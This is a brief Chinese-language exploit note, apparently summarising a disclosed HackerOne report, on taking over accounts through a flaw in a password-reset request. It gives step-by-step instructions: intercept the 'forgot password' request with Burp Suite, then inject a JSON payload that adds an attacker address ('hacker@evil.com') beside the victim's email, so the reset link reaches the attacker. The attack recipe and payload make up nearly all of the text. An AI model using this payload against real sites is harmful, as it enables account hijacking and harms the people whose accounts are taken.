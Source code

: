 忘记密码, 输入受害者的电子邮件并通过 Burp Suite 拦截提交请求

将请求包中的 `"user[email]":"user@example.com"` 格式化并添加一个邮箱

```
 "user" {
     "email" [
              "user@example.com",
              "hacker@evil.com"
       ]
 },
```

此时攻击者的邮箱可以接收到目标用户的密码重置邮件

---

- [获取重置密码邮件](https://hackerone.com/reports/2293343)